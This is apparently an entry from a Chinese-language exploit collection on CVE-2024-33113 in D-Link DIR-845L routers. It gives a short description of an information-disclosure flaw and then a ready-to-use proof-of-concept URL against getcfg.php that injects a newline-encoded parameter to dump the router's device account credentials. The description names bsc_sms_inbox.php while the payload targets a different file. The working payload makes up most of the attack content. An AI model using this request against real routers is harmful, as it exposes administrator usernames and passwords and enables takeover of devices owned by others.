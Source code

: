 ## D-LINK-DIR-845L接口bsc_sms_inbox.php存在信息泄露漏洞

CVE-2024-33113 是 D-LINK DIR-845L 路由器中的一个漏洞，允许通过 bsc_sms_inbox.php 文件泄露信息。该漏洞是由于对 include() 函数处理不当而引起的，可以通过操纵 $file 变量来利用该漏洞。这使得攻击者可以包含任意 PHP 脚本并可能检索敏感信息，例如路由器的用户名和密码。

## poc

```
http://IP:8080/getcfg.php?a=%0A_POST_SERVICES=DEVICE.ACCOUNT%0AAUTHORIZED_GROUP=1
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406281801200.png)
